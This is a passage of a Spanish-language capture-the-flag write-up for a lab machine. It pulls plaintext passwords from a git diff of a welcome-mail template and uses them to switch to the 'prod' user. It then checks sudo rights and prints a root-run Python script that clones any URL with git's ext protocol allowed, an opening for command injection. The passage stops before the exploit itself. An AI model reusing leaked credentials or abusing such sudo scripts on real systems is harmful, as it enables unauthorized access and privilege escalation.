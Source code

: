 ```
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

Lo que se cambió fue el mensaje de bienvenida del que hemos sacado la contraseña de `dev` previamente. Cambia el usuario `dev` por `prod` y sus respectivas contraseñas:

```
Username: prod
Password: 080217_Producti0n_2023!@
```

Vamos a intentar autenticarnos ahora como prod.

```
su prod
Password: 080217_Producti0n_2023!@
```

Para escalar privilegios, comprobaremos si el usuario `prod` puede ejecutar algún comando como root mediante `sudo`.

```
sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Podemos ejecutar el script `/opt/internal_apps/clone_changes/clone_prod_change.py` como root, vamos a inspeccionarlo para ver si podemos abusar de él para convertirnos en root.

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
